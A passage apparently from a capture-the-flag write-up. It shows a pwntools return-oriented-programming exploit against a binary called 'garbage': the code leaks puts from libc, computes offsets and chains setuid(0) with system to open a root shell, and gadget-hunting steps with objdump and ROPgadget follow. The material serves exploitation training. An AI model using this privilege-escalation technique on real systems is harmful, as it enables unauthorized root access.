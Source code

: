 ```python
p.recvuntil("access denied.\n")
leaked_puts = p.recvline()[:8].strip().ljust(8, "\x00")
log.success("Leaked puts@GLIBCL: {}".format(leaked_puts))

leaked_puts = u64(leaked_puts)

# local libc
# libc_put = 0x071b80
# libc_setuid = 0x0c7840
# libc_sys = 0x044c50
# libc_sh = 0x181519

# box libc
libc_put = 0x0809c0
libc_setuid = 0x0e5970
libc_sys = 0x04f440
libc_sh = 0x1b3e9a

# Stage 2: Call setuid(0); system("bin/sh")
offset = leaked_puts - libc_put
zero = p64(0)
setuid = p64(offset + libc_setuid)
sh = p64(offset + libc_sh)
sys = p64(offset + libc_sys)

payload = junk + pop_rdi + zero + setuid + pop_rdi + sh + sys
p.sendline(payload)
p.recvuntil("access denied.\n")

# raw_input()
p.interactive()
```

The following steps were needed to find gadgets manually:

* Find location of `puts` in PLT and GOT:

```bash
$ objdump -D garbage | grep puts
0000000000401050 <puts@plt>:
  401050:       ff 25 d2 2f 00 00       jmpq   *0x2fd2(%rip)        # 404028 <puts@GLIBC_2.2.5>
```

PLT address (procedure linkage table): `0x401050`
GOT address (global offset table): `0x404028`

* Find gadget `pop rdi; ret` in binary (first argument in x64 is taken from `rdi` register):

https://github.com/JonathanSalwan/ROPgadget

```bash
$ /opt/ropgadget/ROPgadget.py --binary garbage | grep "pop rdi"
0x000000000040179b : pop rdi ; ret
```

